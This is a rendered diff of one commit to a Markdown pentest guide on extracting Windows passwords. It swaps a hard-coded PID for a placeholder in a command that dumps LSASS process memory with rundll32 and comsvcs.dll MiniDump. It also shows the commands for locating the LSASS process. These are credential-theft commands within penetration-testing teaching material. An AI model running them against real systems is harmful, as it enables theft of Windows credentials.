

Before and after one commit to HackingNaTuga/Zero2PwnTest, a Markdown page: Passwords/3_extracting_passwords_windows.md, the part around the change. Rendered like a GitHub page.

`````diff
--- a/Passwords/3_extracting_passwords_windows.md
+++ b/Passwords/3_extracting_passwords_windows.md
@@ -85,7 +85,7 @@ A file called lsass.DMP is created and saved in %temp%. `cp <path_lsass.dmp> <di
 ````
 > tasklist /svc (Find PID Lsass from cmd)
 > Get-Process lsass (Find PID Lsass from powershell)
-> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
+> rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
 ````
 
 After extracting the process, we will copy it to our machine.
`````
